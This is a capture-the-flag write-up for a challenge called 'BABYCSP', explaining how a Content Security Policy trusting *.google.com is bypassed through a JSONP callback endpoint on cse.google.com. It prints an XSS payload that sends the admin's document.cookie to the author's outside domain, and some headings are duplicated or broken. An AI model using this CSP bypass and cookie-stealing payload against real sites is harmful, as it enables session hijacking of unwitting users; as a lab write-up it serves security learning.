





# WRITEUP BABYCSP

## Author: p4w @beerpwn team



As the descrption/title say we will probably need to bypass CSP to trigger some XSS in order to steal the admin cookies.
Sufing to the index page we have this:



## Understanding the CSP
The directive ``````
So the CSP permit to use the script that are coming from *google.com
=======


The input that we can pass is totally NOT filtered and safe from XSS.

## Understanding the CSP
The ```script-src 'self' *.google.com``` directive permit to use scripts that are coming from *.google.com, and also from the same domain.
The ```connect-src *``` directive restricts the URLs which can be loaded using script interfaces. Then in this case every URL are allowed.

## Bypassing the CSP
This is what I was thinking during the CTF:
since we can't control directily any file contents from the same domain, then we can try to 'host' some XSS payload on google subdomain. At the beginning I tried to use googleDrive to host some XSS-file but i had no lucky with that and I dind't manage to serve the raw file from google subdomains. So the second idea that comes in my mind was to use JSONP callback. More info about JSONP <a href="https://www.w3schools.com/js/js_json_jsonp.asp">here</a>. So after a bit of googling I found <a href='https://github.com/zigoo0/JSONBee'>this</a> page. So I used this ```https://cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=alert()``` endpoint for JSONP callback.



## Fire the XSS
Now with this payload
`<script src='//cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=alert()'></script>
`
we will be able to pop up an alert bypassing the CSP.
The only problem that I had to solve now is that some character are not usable with this JSON endpoint as we can see here:

This `? / ,` and probably more others are not allowed to construct the callback function.
So I comed up with this payload to avoid the bad char:
<code>
<script src='//cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=location.replace(String.fromCharCode(47).concat(String.fromCharCode(47).concat("beerpwn.it").concat(String.fromCharCode(47).concat(document.cookie))))'></script>
</code>

With this payload we can grab the admin-cookie and get the flag:



flag:
